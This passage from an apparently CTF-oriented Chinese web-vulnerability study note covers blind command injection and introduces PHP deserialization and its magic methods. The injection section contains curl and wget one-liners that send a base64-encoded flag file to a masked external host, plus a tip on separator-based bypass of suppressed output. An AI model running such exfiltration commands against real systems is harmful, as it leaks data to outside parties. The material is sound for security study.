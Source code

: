 有时会读取不全，这里我没碰到，读取不全的话我们可以进行一个编码，如下。

```text
curlhttp://*.*.*.**/record.php?data=`catflag|base64`
wgethttp://*.*.*.*/record.php?data=`catflag|base64`
```

更多参考[https://blog.csdn.net/qq_43625917/article/details/107873787](https://link.zhihu.com/?target=https%3A//blog.csdn.net/qq_43625917/article/details/107873787)

**二、>/dev/null 2>&1类无回显**

代码中插入了>/dev/null 2>&1，“>/dev/null 2>&1”的作用就是不回显。

![img](PictureFile/【Web】TOP漏洞.assets/v2-c332969cc627dcefffcf239469b4ac48_720w.webp)

该种无回显我们用分隔符进行分割即可绕过

![img](PictureFile/【Web】TOP漏洞.assets/v2-c90eb4a4a6bc153db78918c782952814_720w.webp)

## 反序列化

### 概念

反序列化漏洞是基于序列化和反序列化的操作，在反序列化——unserialize()时存在用户可控参数，而反序列化会自动调用一些魔术方法，如果魔术方法内存在一些敏感操作例如eval()函数，而且参数是通过反序列化产生的，那么用户就可以通过改变参数来执行敏感操作，这就是反序列化漏洞。

序列化：把对象转换为字节序列的过程称为对象的序列化。 

反序列化：把字节序列恢复为对象的过程称为对象的反序列化。

```php
__construct() 当创建对象时触发，一般用于初始化对象，对变量赋初值
__sleep() 使用serialize()时自动触发 
__wakeup() 使用unserialize()时自动触发
__destruct() 当一个对象被销毁时触发
__toString() 当一个类被当成字符串使用时触发
__invoke() 当尝试以调用函数的方式调用一个对象时触发
__call() 在对象上下文中调用不可访问的方法时触发 
__callStatic() 在静态上下文中调用不可访问的方法时触发 
__get() 用于从不可访问的属性读取数据
__set() 用于将数据写入不可访问的属性
__isset() 在不可访问的属性上调用isset()或empty()触发
__unset() 在不可访问的属性上使用unset()时触发
```
